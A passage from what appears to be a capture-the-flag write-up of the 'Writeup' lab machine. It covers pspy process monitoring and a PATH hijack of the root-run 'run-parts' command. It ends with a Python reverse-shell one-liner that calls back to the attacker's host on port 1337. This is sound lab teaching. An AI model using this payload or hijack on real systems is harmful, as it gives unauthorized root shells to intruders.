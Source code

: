 On my machine:
{% highlight bash %}
$ mkdir httpserver
$ cd httpserver
$ cp ~/Downloads/pspy64 .
$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
{% endhighlight %}

On the `Writeup` machine:
{% highlight bash %}
jkr@writeup:~$ cd /tmp
jkr@writeup:/tmp$ wget http://10.10.XXX.XXX/pspy64
--2019-08-28 22:59:29--  http://10.10.XXX.XXX/pspy64
Connecting to 10.10.XXX.XXX:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4468984 (4.3M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                        100%[==============================================>]   4.26M  1006KB/s    in 5.2s    

2019-08-28 22:59:34 (842 KB/s) - ‘pspy64’ saved [4468984/4468984]

jkr@writeup:/tmp$ chmod 777 pspy64
jkr@writeup:/tmp$ ./pspy64
{% endhighlight %}

After monitoring for a while, we see some commands being run as `root`,
{% highlight bash %}
2019/08/28 23:02:25 CMD: UID=0    PID=2313   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:
/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2019/08/28 23:02:25 CMD: UID=0    PID=2314   | run-parts --lsbsysinit /etc/update-motd.d
{% endhighlight %}

For the first command, it is mainly setting the `$PATH` environment variable which determines where the system looks for executables. For the second command, it is running the `run-parts` command.

When I checked where the `run-parts` executable was located,
{% highlight bash %}
jkr@writeup:/tmp$ which run-parts
/bin/run-parts
{% endhighlight %}

`run-parts` was found at `/bin` but `/bin` is not the first location that the system will look for executables. How can we take advantage of this fact ? If we create an executable called `run-parts` at `/usr/local/sbin`, the system will execute that instead of the `run-parts` at `/bin`! 

# Privilege Escalation

{% highlight bash %}
jkr@writeup:/tmp$ echo "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.con
nect((\"10.10.XXX.XXX\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call
([\"/bin/sh\",\"-i\"]);'" > /usr/local/sbin/run-parts
jkr@writeup:/tmp$ chmod 777 /usr/local/sbin/run-parts
{% endhighlight %}
